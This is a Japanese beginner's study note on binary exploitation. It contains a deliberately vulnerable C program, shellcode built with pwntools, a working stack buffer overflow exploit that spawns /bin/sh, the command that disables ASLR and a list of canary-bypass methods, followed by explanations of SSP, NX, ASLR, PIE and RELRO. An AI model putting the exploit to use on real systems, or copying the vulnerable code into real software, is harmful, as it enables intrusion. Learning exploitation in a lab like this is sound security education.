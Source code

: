 # はじめて学ぶバイナリ解析
- バッファオーバーフローを利用することで、libc中のsystem関数だけでなく、攻撃者自身が作ったプログラムを動かすことが出来る
	- 攻撃者はシェルを起動することを目標として攻撃することが多く、シェルを呼び出すコードであるかを問わず、攻撃に利用するプログラムをシェルコードと呼ぶようになった
- シェルコードの作成
	- pwntoolsのasm関数を使うとアセンブリをバイナリに変換することが出来る
		- ```python
		  from pwn import *
		  shellcode = asm("push 0x6948; mov eax, 0x4; mov ebx, 0x1; mov ecx esp; mov edx, 0x2; int 0x80")
		  print(enhex(shellcode))
		  ```
		- pwntoolsのenhex関数を使うとバイナリを16進数に変換することが出来る
	- pwntoolsのshellcraft.sh()を使うとシェルを呼び出すアセンブリコードを出力することが出来る
		- ```python
		  from pwn import *
		  print(shellcraft.sh())
		  ```
		- 出力されるアセンブリコードはexecveというシステムコールを呼び出すものになっていて、第一引数に/bin/shを渡している
		- execveはexecveを呼び出したプロセスの動作を第一引数で指定したプログラムの実行に切り替えるというシステムコール([参考](https://endy-tech.hatenablog.jp/entry/system_call_fork_clone_execve#execve))
- シェルコードの実行
	- スタックにシェルコードを格納し、リターンアドレスをシェルコードが格納されている領域の先頭アドレスに書き換える
		- これまではリターンアドレスをプログラム部のアドレスで書き換えてきたが、今回はスタック領域のアドレスで書き換える
	- 入力時にESPからリターンアドレスまでの差と、シェルコードが格納されている領域の先頭アドレスを知る必要がある
- ```c
  #include <stdio.h>
  
  void vuln() {
    char buffer[128];
    printf("%p\n", buffer);
    scanf("%[^\n]", buffer);
  }
  
  int main() {
    vuln();
    printf("failed\n");
    return 0;
  }
  ```
	- buffer入力時のESPからリターンアドレスまでの差は、pattc & pattoもしくはステップアウト実行で調べることが出来る
	- bufferのアドレス(=シェルコードが格納されている領域の先頭アドレス)は実行のたびに異なるため、攻撃によってリークさせる必要があるが、今回は簡単のためにプログラム側で出力する
		- ASLRが無効化されていたら実行のたびに同じ
	- gccのオプションは-fno-stack-protectorに加えて、スタック領域のデータをプログラムとして実行させるために-z execstackをつけてコンパイルする必要がある([参考](https://miso-24.hatenablog.com/entry/2019/10/16/021321))
- 以下のプログラムでシェルを起動することが出来る
	- ```python
	  from pwn import *
	  p = process("./a.out")
	  shellcode = asm(shellcraft.sh())
	  buffer_addr = int(p.recvline(), 16)
	  payload = shellcode + "A"*(140-len(shellcode)) + p32(buffer_addr)
	  p.sendline(payload)
	  p.interactive()
	  ```
	- buffer入力時のESPからリターンアドレスまでの差は140
	- pwntoolsのp32という関数を使うとリトルエンディアンで並び替えが行われるらしい
	- bufferのサイズがある程度ないとシェルコードを埋め込めないと思った
- バッファオーバーフローに対する対策([参考](https://www.saitolab.org/infra_kaisetsu/))
	- SSP (Stack Smash Protection)
		- 関数呼び出し時にEBPの上にカナリア(canary)と呼ばれる値を追加する
		- 呼び出し先の関数が終了したタイミングでカナリアが元の値から書き変わっていたらバッファオーバーフローが発生したことになる
		- カナリアの値として乱数(プロセル起動時にランダムに設定)かヌルバイトを含む値が使われる
			- ヌルバイトを入力としてプログラムに渡すのは難しい、と書いてあるが本当？
		- 突破方法
			- カナリアの検証を行う関数が呼び出される前に他の関数にリターンさせる方法
			- カナリアの値をリークさせる方法
			- master canaryというカナリアの元となる値を保存しておく領域を攻撃する方法
		- gccのオプションで-fno-stack-protectorをつけることでSSPを無効にすることが出来る
	- NX Bit (No eXecute Bit)
		- NX Bitとは特定のメモリ領域に付与する実行不可を示す属性
		- NX Bitが有効でも、実行可能なメモリ領域に存在する関数や命令を組み合わせることで任意コードを実行する方法がある
		- gccのオプションで-z execstackをつけることでNX Bitを無効にすることが出来る
	- ASLR (Address Space Layout Randomization)
		- プログラムを実行するごとにスタックやヒープ、共有ライブラリをメモリ上にランダムに配置する
		- アドレスが毎回変わるので攻撃が難しくなる
		- ASLRはコンパイラのセキュリティ機構ではなく、OSのセキュリティ機構
		- sudo sysctl -w kernel.randomize_va_space=0で無効化、1と2で有効化([参考](https://docs.oracle.com/cd/E39368_01/security/ol_aslr_sec.html))
	- PIE (Position Independent Executable)
		- ASLRに加えてプログラム部(テキスト領域)のアドレスもランダムに配置するという仕組み
	- RELRO (RELocation Read-Only)
		- GOT(Global Offset Table)と呼ばれる領域に対してReadOnlyにするかを決める
		- GOTとは外部ライブラリの関数のアドレスを保存しておくためのテーブルで、これが攻撃者によって書き換えられると、任意の関数が実行されてしまう(GOT Overwrite攻撃という)
		- RELROがNo RELROとPartial RELROの時はGOT Overwrite攻撃をされてしまうが、Full RELROの時はReadOnlyになるため、GOT Overwrite攻撃は出来ない
- [checksec.sh](https://github.com/slimm609/checksec.sh)を使うことで、各セキュリティ機構が有効になっているかを調べることが出来る